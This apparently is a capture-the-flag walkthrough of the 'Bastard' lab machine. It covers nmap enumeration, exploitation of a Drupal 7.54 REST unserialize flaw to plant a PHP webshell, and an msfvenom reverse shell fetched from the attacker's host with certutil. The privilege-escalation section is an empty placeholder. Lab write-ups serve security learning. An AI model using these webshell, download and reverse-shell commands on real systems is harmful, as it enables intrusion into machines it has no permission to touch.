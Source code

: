 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Mon Jul 18 21:08:28 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.9
Nmap scan report for 10.10.10.9
Host is up (0.079s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   78.77 ms 10.10.14.1
2   78.79 ms 10.10.10.9

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 18 21:11:24 2022 -- 1 IP address (1 host up) scanned in 177.01 seconds
``` 
</br>
**Initial Shell Vulnerability Exploited:** </br>
Since port 80 was open, I got inside the main page and I could see that it was powered by Drupal: </br>
![main_page](images/bastard/main_page.png) </br>
So I ran a drupal scan using [droopescan](https://github.com/SamJoan/droopescan) tool with the command: ```droopescan scan drupal -u 10.10.10.9``` </br>
![drupal_version](images/bastard/drupal_version.png) </br>
I could see that the drupal version is 7.54 and I found an exploit for that version on [GitHub](https://github.com/PolarisLab/Drupal-Exploit/blob/master/Drupal-Exploit.php). </br>
Before running the exploit, I had to install the PHP-curl package and do some modifications in the exploit
code. </br>
I installed php-curl with this command: ```sudo apt-get install php-curl``` and modified the exploit code: </br>

```bash
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'test.php',
    'data' => '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; >
];
```
**$url** - To the machine URL (10.10.10.9) </br>
**$endpoint_path** - was at /rest_endpoint before, but it returned 404 Not found, I tried /rest instead and it worked (returned 200). </br>
**'filename'** - will be the name of the file uploaded to the webserver. </br>
**'data'** - I changed it to a one liner [webshell](https://gist.github.com/sente/4dbb2b7bdda2647ba80b) </br>
I ran the exploit: </br>
![shell_upload](images/bastard/shell_upload.png) </br>
And the webshell seemed to work fine:
![webshell_proof](images/bastard/webshell_proof.png) </br>
# Uploading a Reverse Shell:
I used msfvenom to generate a reverse shell on my Kali: ```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.31 LPORT=4242 -f exe >
reverse.exe``` </br>
I then downloaded that on the target machine with certutil, using the webshell: </br>
'''bash
10.10.10.9/test.php?cmd=certutil -urlcache -split -f "http://10.10.14.31/reverse.exe" reverse.exe
'''
</br>
Ran the file while listening to port 4242 on my Kali: </br>
![initial_shell_poc](images/bastard/initial_shell_poc.png) </br>
**Vulnerability Explanation:** One of the feature of the module is that one can control the input/output format by changing the
Content-Type/Accept headers.
one of the input formats is: application/vnd.php.serialized, which is the type given to PHP-serialized data,
that means that this module is vulnerable to trivial unserialize() vulnerability.
The unserialize function can result in code being loaded and executed. </br>
**Initial Shell Screenshot:** </br>
![initial_shell_poc2](images/bastard/initial_shell_poc2.png) </br>
# Privilege Escalation:
Just trying to write some text here </br>






